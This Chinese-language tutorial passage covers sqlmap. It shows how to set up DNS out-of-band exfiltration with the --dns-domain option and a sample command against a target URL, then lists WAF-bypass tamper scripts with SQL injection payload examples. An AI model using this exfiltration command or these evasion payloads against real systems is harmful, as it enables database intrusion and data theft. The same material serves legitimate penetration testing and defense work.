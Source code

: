 使用方法：sqlmap使用--dns-domain参数时候会监听53端口，我们需要把我们获得数据所使用的域名的dns服务器配置到我们运行sqlmap的主机，就可以获得dns外带的数据。  
因为配置dns服务器的时候也需要dns，所以我们需要两个域名，详细配置如下：  
配置我们的用于解析dns的nameserver的域名ns1.xxx.com,ns2.xxx.com指向我们运行sqlmap的主机ip。  
配置我们用于外带数据的域名rainism.cc的域名服务器为ns1.xxx.com和ns2.xxx.com 。  
我们在外网的vps上执行如下命令  

`sqlmap.py -u 'http://xxoo.com/index.php?id=1*' --random-agent --dns-domain='rainism.cc' -v 3`  

可以看到sqlmap执行的语句和返回的数据。   



## 二、SqlMap绕过WAF实例
apostrophemask.py UTF-8编码  
Example:  
* Input: AND '1'='1'  
* Output: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87  

apostrophenullencode.py unicode编码  
Example:  
* Input: AND '1'='1'  
* Output: AND %00%271%00%27=%00%271%00%27  

appendnullbyte.py 添加%00  
Example:  
* Input: AND 1=1  
* Output: AND 1=1%00  
Requirement:  
* Microsoft Access  

base64encode.py base64编码  
Example:  
* Input: 1' AND SLEEP(5)#  
* Output: MScgQU5EIFNMRUVQKDUpIw==  

between.py 以“not between”替换“>”  
Example:  
* Input: 'A > B'  
* Output: 'A NOT BETWEEN 0 AND B'  

bluecoat.py 以随机的空白字符替代空格，以“like”替代“=”  
Example:  
* Input: SELECT id FROM users where id = 1  
* Output: SELECT%09id FROM users where id LIKE 1  
Requirement:  
* MySQL 5.1, SGOS  

chardoubleencode.py 双重url编码  
Example:  
* Input: SELECT FIELD FROM%20TABLE  
* Output: `%2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545`  

charencode.py url编码  
Example:  
* Input: SELECT FIELD FROM%20TABLE  
* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45  
